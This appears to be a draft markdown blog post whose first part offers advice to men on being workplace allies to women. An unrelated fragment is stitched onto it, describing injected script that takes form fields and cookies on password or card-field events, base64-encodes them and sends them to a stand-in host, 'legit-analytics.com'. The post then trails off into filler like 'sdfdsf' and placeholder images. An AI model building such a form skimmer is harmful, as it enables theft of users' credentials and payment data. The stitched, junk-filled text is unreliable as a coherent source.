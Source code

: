 ```yaml
---
path: '/second-post'
title: 'Be a Pal, My Dudes'
published: true
date: '2017-11-23'
author: 'James Willis'
tags: ["be", "a", "pal", "my", "dudes"]
minutes: '4'
---
```


## A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

![alttext](https://cdn-images-1.medium.com/max/800/1*7iVk_As1gKmrFo3e6E9qPg.png)
<figcaption>Don’t be this guy. Why would anyone want to be this guy?</figcaption>

So, based on what we’ve heard in our workshops, conversations with colleagues, and straight-up asking Twitter, here are a few very specific helpful actions you can take. Many of these you’ve probably heard before. If we keep repeating, maybe they’ll stick. We all know the right thing to do, it’s cultivating a habit of doing the right thing in the moment that is so hard.

(Note: This list is just a starting point, and I’ve focused on peer-level actions, not management. I’ll probably make some edits and amendments and will definitely write more on this topic. Thanks to everyone weighing in!)

## Listen to women
This is fundamental on all levels. Listen to the individual woman who is talking to you. Assume she knows what she is talking about. Listen to the collective voices of women saying there is a problem. Stifle any urge to respond defensively. Don’t try to guess what they’re about to say. Just listen.

And don’t interrupt.

## Create space for women to speak
“The research suggests that, in groups, men tend to get and keep the floor more often than women, talk more often and for longer, interrupt more, and make different kinds of contributions, using language strategies that challenge, create and maintain status distinctions (i.e. they create and maintain asymmetrical alignments between themselves and interlocutors).”

—“Gender and Language in the Workplace” by Shari Kendall and Deborah Tannen

When you are speaking, you can help just by getting to your point faster. This helps everyone, really.

For bonus points, start paying attention in meetings and listen for men using far more words than necessary. Logorrhea is not necessarily a conscious move, and often comes from insecurity. Truly confident people are succinct.


```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> *f an attacker successfully injects any code at all, it’s pretty much game over*
sdfdsf
sdfsdf

![My image](https://cdn-images-1.medium.com/max/800/1*ePuviAguE9BPZ2GgdY8UXg.png)
  <figcaption>sdsd</figcaption>



  ![My image](https://upload.wikimedia.org/wikipedia/commons/b/be/Sharingan_triple.svg)
  <figcaption>sdsd</figcaption>